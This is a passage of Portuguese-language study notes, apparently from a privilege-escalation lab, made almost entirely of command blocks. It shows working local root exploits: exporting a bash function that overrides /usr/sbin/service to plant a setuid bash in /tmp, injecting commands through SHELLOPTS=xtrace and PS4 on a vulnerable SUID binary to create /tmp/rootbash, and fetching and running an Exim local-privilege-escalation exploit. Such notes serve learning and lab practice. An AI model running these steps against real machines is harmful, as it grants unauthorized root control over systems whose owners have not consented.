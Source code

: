 ```
|$0H
/usr/sbin/service apache2 start

# Também da pra rodar com strace: strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service

function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
# Criando uma função. Versões do bash menores que 4.2-0.48 estão vulneráveis a criação dessas funções para a exploração dos serviços

export -f /usr/sbin/service
# Exportando a função

/usr/local/bin/suid-env2
# Executando o binário

```



### Exploração 3

![[Pasted image 20230204181521.png]]
![[Pasted image 20230204181533.png]]

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null

strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep apache

/bin/sh --version
# Retornará a versão 4.1.5 -> Que está vulnerável

env -i SHELLOPTS=xtrace PS4='<teste>' /usr/local/bin/suid-env2

env -i SHELLOPTS=xtrace PS4='$(whoami)' /usr/local/bin/suid-env2
# Como está no bash, executará o comando whoami

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2

/tmp/rootbash -p
```


## Exim exploit

```
exim-4.84.3 --version
# Output retornará a versão

searchsploit exim 4.84-3
# Retornará um exploit de escalação de priv local

#Copiar o xpl e transferir para a máquina local

./xpl.sh
# Retornará um erro com /bin/bash^M o que significa que o xpl foi escrito no windows

sed -i -e "s/^M//" xpl.sh

./xpl.sh
# Virá a shell como root

```
